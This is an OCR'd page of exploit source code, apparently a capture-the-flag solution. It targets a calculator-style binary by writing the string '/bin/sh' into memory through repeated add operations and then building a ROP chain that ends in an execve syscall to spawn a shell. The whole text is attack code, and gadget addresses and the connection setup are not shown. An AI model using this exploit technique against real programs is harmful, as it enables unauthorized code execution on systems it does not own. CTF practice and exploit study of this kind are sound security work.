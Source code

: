 ```
binsh0 = 0x6e69622f
binsh1 = 0x0068732f
space = 0x6c0000

#Declare the start function, which will just establish how many operations we will use
def start():
	target.sendline("50")
	target.recvuntil("=>")

#Declare the first function which will write values that we pass to it
def write(arg):
	x = arg - 100
	target.sendline("1")
	target.sendline(str(x))
	target.sendline("100")	
	target.recvuntil("=>")

#This is essentially the write function, however it writes 0x0000 after everything (helps format 8 byte segments)
def rop_write(arg):
	x = arg - 100
	target.sendline("1")
	target.sendline(str(x))
	target.sendline("100")	
	target.recvuntil("=>")
	write(0x0)

#This is just a function to recursively write 0x0000 to fill up space
def write_zeros(arg):
	for i in range(0, arg):
		write(0x0)

#This function just writes the rop Chain
def write_rop_chain():
	#Write the part of the ROP Chain to write "/bin/sh" to memory
	rop_write(pop_rax)
	rop_write(space)
	rop_write(pop_rdx)
	write(binsh0)
	write(binsh1)
	rop_write(write_gadget)

	#Make the syscall to get a shell
	rop_write(pop_rdi)
	rop_write(space)
	rop_write(pop_rdx)
	write(0x0)
	write(0x0)
	rop_write(pop_rsi)
	write(0x0)
	write(0x0)
	rop_write(pop_rax)
	rop_write(0x3b)
	rop_write(syscall)

#This function just adds the two integers together that we need in order to not crash free, than saves and exits the program to trigger the bug
def end():

	target.sendline("1")
	target.sendline("2688")
	target.sendline("-1278")
	target.recvuntil("=>")
```